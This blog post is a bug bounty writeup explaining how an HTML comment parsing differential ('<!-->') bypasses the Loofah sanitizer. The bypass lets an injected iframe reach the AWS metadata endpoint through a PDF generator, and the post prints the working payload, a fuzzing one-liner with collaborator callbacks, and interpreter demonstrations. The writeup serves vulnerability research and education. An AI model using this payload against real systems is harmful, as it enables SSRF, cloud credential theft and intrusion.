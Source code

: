 ```yaml
---
layout: post
title:  "Opinions are like Bugs - Every Spec has one."
date:   2023-07-24
categories: bugbounty
---
```


Opinions are like Bugs - Every Spec has one. 

*When two specifications have differing opinions on how something should be parsed: here be dragons.*

This writeup is about a bug I first discovered over a year go and have found a number of times since. There's nothing particularly novel about the vulnerability itself, but I think there's an interesting lesson in here about why it exists, and about where to look for other bugs that exist for the same reason. 

---

The first time I spotted this issue it was in a sanitizer library for ruby called [loofah](https://github.com/flavorjones/loofah). This is a tool commonly used in Ruby on Rails projects, and has shipped as a part of Rails core since v4.2. That finding let me escalate a strictly limited html injection to RCE. Below is what the html injection payload looked like, you may be able to guess how it worked.

```
<!--><iframe src=http://169.254.169.254/latest/meta-data></iframe>-->
```

The application I was testing allowed me to generate reports and export them as PDFs. After generating a sample and examining the metadata I knew what pdf generator was being used to accomplish this. A quick test of that tool proved that an SSRF should be possible if I could inject an iframe, as the generator would attempt to populate that iframe by loading it from the server. Injecting an image tag pointing to a burp collab resulted in a callback from an aws EC2 ip, so my plan was to try pulling IAM creds from the aws metadata instance. At first this failed. 

All of the inputs I could control were validated against a strict allowlist of safe html tags and attributes. Things like text formatting, images, and links were allowed but iframes were not.

I spent some time mapping out allowed tags and attributes, but the results didn't look very promising. After a lot of testing I had exhausted all obvious options, but I was so close I couldn't stop yet. One final possibility was still tickling my brain. 

I wasn't totally sure what was being used to scrub my input, and I wanted to thoroughly test the sanitizer before calling it complete. I knew it was a ruby on rails application, and that rails used Loofah for scrubbing out unwanted input. I pulled open rails console and starting pushing on Loofah in every direction trying to find interesting behaviour. Of all the tags that were allowed by the application I was testing, the one that stood out the most was the HTML comment tag `<!-- -->`. I wondered if it might be possible to leverage a parsing differential such that loofah would see the iframe as being inside a comment, but the pdf generator would not. 

The test was fairly simple to implement. I generated a wordlist using the following oneliner, and generated a pdf report containing it. I expected most of them to be considered comments by the PDF generator, but if any of the iframes were rendered I should get a nudge on my burp collaborator. 

```
ruby -e "0.upto(65535) {|i| puts '<\!--' << i << '<iframe src=burpcollap/?id=' << i << '></iframe>-->'}"
...
<!--[<iframe src=burpcollab/?id=91></iframe>-->
<!--\<iframe src=burpcollab/?id=92></iframe>-->
<!--]<iframe src=burpcollab/?id=93></iframe>-->
<!--^<iframe src=burpcollab/?id=94></iframe>-->
<!--_<iframe src=burpcollab/?id=95></iframe>-->
...
```

To my surprise, I got a hit on `burpcollab/?id=62`, the codepoint for the greater-than character `>`. This allowed me to bypass the sanitizer, inject an iframe, steal creds, and escalate to RCE. But... WHY?

![image](https://media4.giphy.com/media/zrmTqopWm4W5cPg8Ah/giphy.gif?cid=ecf05e47y5ni6z9jd9m44cw1nvjr16cx3cpbw5zi8tmblrgl&ep=v1_gifs_search&rid=giphy.gif&ct=g)

# But why?

To investigate what was going on I pulled open my ruby interpreter to see what this input looked like from Loofah's perspective. I started by defining a loofah scrubber that would take an html fragment and remove any instances of the <iframe> tag.

```
irb(main):001:0> require 'loofah'
=> true
irb(main):002:1* iframe_scrubber = Loofah::Scrubber.new do |node|
irb(main):003:1*   node.remove if node.name == "iframe"
irb(main):004:0> end
```
I tested this on a normal iframe, and it behaved as expected:
```
irb(main):005:0> html = "<h1>iframe test</h1><iframe></iframe>"
irb(main):006:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1>"
```
Then I tested it with a normal comment:
```
irb(main):007:0> html = "<h1>iframe test</h1><!--<iframe></iframe>-->"
irb(main):008:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--<iframe></iframe>-->"
```
And finally, with the modified comment discovered by our fuzzer:
```
irb(main):009:0> html = "<h1>iframe test</h1><!--><iframe></iframe>-->"
irb(main):010:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--><iframe></iframe>-->"
```
As expected, Loofah see's the iframe tag in both of the the last two examples as being safely tucked inside a comment. However, when this exact same code is passed to the pdf generator, the iframe is rendered. This means that whatever is parsing the HTML in the pdf generator parses this in such a way that the iframe tag is not inside the comment. 

Even better, the html parsers in modern browsers agree with the pdf generator. Open a page with this html in chrome, firefox, edge, etc, and you'll see a rendered iframe:
```
<!--><iframe src=about:blank></iframe>-->
```

At first glance, this seemed like a bug in the html parser that Loofah is using, but after some investigation it turned out to be something much worse: Competing specs with different opinions. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c57b60f0-9e28-496b-b6e5-00062a7daba1)

---

# Competing Specs

Loofah uses an html parsing framework called Nokogiri, which is built on libxml2. Libxml2 is a very popular xml (and html) parsing library that tries to be compliant with the [W3C html 5 specification](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html). The problem is that this library is very old, and pieces of it's parsing functionality are much older than the most recent version of the standard. 

The library's comment parsing functionality, for example, was [implemented in 2000](https://github.com/GNOME/libxml2/blame/75693281389aab047b424d46df944b35ab4a3263/HTMLparser.c#L3455). At that time, the specs guidance for parsing comments was as follows:
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/d7da43dd-f4cf-4b26-b143-1cbd3d6a3827)

If the tokenizer encountered the opening comment sequence `<!--` it should just consume everything up to the closing comment sequence `-->` and treat everything therein as a comment. This means that, given our sequence `<!-->`, the `>` would be ignored and everything up to `-->` would be a comment. This explains why Loofah saw our iframe as being inside a comment. 

Eventually, the rules changed and as of the 2010 version of the specification the rules for parsing comments were as follows:

- We start in "tag open state," and we encounter an `!`, so we swtich to "markup declaration state"
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/36a44f08-c53e-4d79-9556-2d8823927ee0)

- If the next two characters are `--` we switch to `comment start state`
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/7f3ed1e9-8d25-441f-982b-4e92039d8412)

- And finally, if the very next character is `>`, we throw a parse error and switch back to "data state" instead of "comment state".
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c2cc572c-1f43-4982-bd75-ef2d11effbf9)

Now, given the sequence `<!-->`, the comment is opened and then immediately closed. Everything following the `>` is outside the comments. This explains why the PDF generator, and modern browsers, render the iframe. 

---

This issue has been patched in the most recent version of libxml2, but I still find it frequently. Any HTML parsing framework that depends on an old version of libxml2, or was developed against an older version of the HTML5 spec is likely vulnerable to this bug. For example, beautiful soup is another parsing framework that follows the old rules for parsing comments: 

```
>>> import bs5
>>> soup = bs4.BeautifulSoup("<iframe></iframe>", "html.parser")
>>> soup.iframe
<iframe></iframe>
>>> soup = bs4.BeautifulSoup("<!-- <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>> soup = bs4.BeautifulSoup("<!--> <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>>
```
Note that the last two examples, the normal comment and the abruptly closed comment, are treated the same. This has been reported but no fix has been implemented as yet. 

---

# Lesson

The lesson I learned from this research is that when you're dealing with complex functionality that depends on a specification like an RFC, you should read it. These documents can be a slog but the more you read the better you'll become at parsing and understanding them. There are so many subtle details hidden away in standards that are just waiting to be stumbled on by the right hacker with the right mindset. Keep your eyes peeled for ambiguous language, major changes across versions, and situations where more than one standard exists and your input is being consumed by both of them at different times.
